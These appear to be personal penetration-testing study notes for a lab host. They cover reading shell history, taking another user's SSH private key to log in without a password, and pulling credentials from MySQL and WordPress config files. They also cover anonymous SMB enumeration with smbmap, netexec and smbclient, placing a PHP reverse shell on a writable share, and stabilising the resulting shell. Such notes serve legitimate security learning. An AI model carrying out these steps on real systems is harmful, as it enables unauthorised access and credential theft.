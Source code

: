 - cat .zsh_history : all I've used , but no priv to read

- history

- usernames > /home/groot/.ssh/id_rsa : SSH private key  > access as a groot even though I don't know the password

```
vim groot-privatekey.pem
chmod 600 groot-privatekey.pem
ssh -i groot-privatekey.pem groot@172.31.176.64
```

- MySQL server > conf file read 
    - cd /etc/mysql/my.cnf 
    - : default, rarely creds #, misconfiguration, versions, what port running

- wordpress conf
    - /var/www/html/wp-config.php
    - /var/www/html/wordpress/wp-config.php




- asessment

smbmap
```
smbmap -H 172.31.176.64
```
netexec
```
netexec smb 172.31.176.64 -u '' -p ''
netexec smb 172.31.176.64 -u '' -p '' --shares
```
enum4linux  



- smbclient
    - smb read/write >>>>  put and execute reverseshell
```
smbclient \\\\172.31.176.64\\samba-share 
or
smbclient \\\\172.31.176.64\\samba-share -U ""
```


- but actual path is different, mappnig
    - /var/smb/smbshare-wow
- but conf file read
    - /etc/samba/smb.conf
    ```    
    [samba-share]
    path =/samba
    read only = no : writable
    ```
> /samba/php-reverse-shell.php
```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo; fg
reset 

export SHELL=bash
export TERM=xterm-256color
```
